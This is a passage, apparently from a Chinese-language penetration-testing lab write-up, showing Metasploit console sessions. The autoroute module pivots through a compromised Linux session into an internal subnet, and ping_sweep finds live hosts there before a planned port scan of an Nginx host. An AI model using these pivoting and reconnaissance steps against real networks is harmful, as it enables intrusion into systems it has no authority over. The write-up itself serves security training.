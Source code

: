 ```metasploit
session => 8
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 192.172.85.3
[*] Searching for subnets to autoroute.
[+] Route added to subnet 192.172.85.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.171.84.0       255.255.255.0      Session 2
   192.172.85.0       255.255.255.0      Session 8

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) >
```

通过ping_sweep可以发现到存活主机的地址（才发现ping_sweep是支持直接选择会话号来选择主机执行扫描的，不过既然后面的TCP端口扫描并没有这么智能，就不进行特别说明了），接下来就是简单的端口扫描了，由于已知是Nginx名称而直接扫描80端口应该不会有问题的吧：

```metasploit
msf6 post(multi/manage/autoroute) > search ping_sweep

Matching Modules
================

   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep


Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep

msf6 post(multi/manage/autoroute) > use 0
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting   Required  Description
   ----     ---------------   --------  -----------
   RHOSTS   192.171.84.2-254  yes       IP Range to perform ping sweep against.
   SESSION  2                 yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.172.85.2-254
rhosts => 192.172.85.2-254
msf6 post(multi/gather/ping_sweep) > set session 8
session => 8
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.172.85.2-254
[+]     192.172.85.2 host found
[+]     192.172.85.3 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) > search portscan
```